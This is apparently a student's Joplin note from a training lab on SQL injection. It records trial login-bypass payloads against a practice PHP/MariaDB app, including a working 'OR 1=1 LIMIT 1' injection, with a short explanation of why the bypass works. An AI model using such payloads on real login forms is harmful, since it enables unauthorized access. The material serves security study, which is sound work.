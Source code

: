 9.4.5.4

# 9.4.5.4
## 9.4.5.4.1. Interact with the MariaDB database and manually execute the commands required to authenticate to the application. Understand the vulnerability.

Authenticate to the webappdb database as root.
![3013ad9b118637e2af2aa9a12ed556f3.png](:/786aca30f81c41fba9058e712ec91f2f)

Use the WHERE clause to select by id or by username
![883a8fc348b006703988edfc335be69a.png](:/02b0e1b0b92e4ca4a68ae8c84d5fee43)



## 9.4.5.4.2. SQL inject the username field to bypass the login process.
Now try logging in without valid credentials
`tom'`
![211b521d3d86d5f460303c83c22ff0cb.png](:/d00ceab4241144e2aa8539b23d4279b7)

`1=1'`
![8410364e0717816486a4b1f45d1fe2ba.png](:/a834846cfc774491a8325f13a5a15b14)

`tom' or 1=1'#`
![f09449b07da7289ab43895e03ae96946.png](:/dff4ba1157d04f91925944f311c77733)

`tom or 1=1'`
![7860db31cdc8cc02f8ca64cf73b787bd.png](:/0463fc30388442a887f3a7fd6b1391a9)

`tom or 1=1'#`
![7c77a4ab77c847d48f96956c51fcb508.png](:/d73c12488ad94957a8b10f91b825b864)

`tom' or 1=1#`
![a058810c49032dd0586baacdf8e77e0d.png](:/a6794234226049e585623d0eab88eb3f)

`tom' or 1=1;#`
![14d67a85847a2ed5d6b23526e2f6b541.png](:/1c12eb72af8848559a8cc467d908cec9)

`tom' OR 1=1 LIMIT 1;#` THIS WORKS!
![9bc81eb738717bd462a59079f26ef191.png](:/3821d87a3ce64223a3272ad95b55811b)


## 9.4.5.4.3. Why is the username displayed like it is in the web application once the authentication process is bypassed?

When a user is authenticated, the code calls header(admin.php). The header() function is a predefined PHP native function that allows us to control data sent to the client by the Web server before other output has been sent. In this case, it redirects to admin.php. There is a statement in admin.php that echoes "Welcome <user>"
![648251edf7ba25e575744109f2316ef0.png](:/db6a01d3721a4b8ba8da88eaf2bc2b7c)



## 9.4.5.4.4. Execute the SQL injection in the password field. Is the "LIMIT 1" necessary in the payload? Why or why not?

Yes it is necessary to include "LIMIT 1" in this example because the source code file login.php because line 22 requires there to be exactly 1 result.
```plaintext
if( $result->num_rows == 1 ) {
                                        $_SESSION['user'] = $_POST['username'];
                                        header("Location:admin.php");
```
![a69401c79bb1c29c897b1a873cdc14de.png](:/b2afbaf6cc3e45f5a6d1f79bfd1529fa)

id: 41faa3f7fa4e456b9df706c28289e567
parent_id: 98ea80be5dd3403caa0dc34f0f414fd3
created_time: 2020-10-02T21:26:22.862Z
updated_time: 2020-10-02T21:26:24.212Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T21:26:22.862Z
user_updated_time: 2020-10-02T21:26:24.212Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1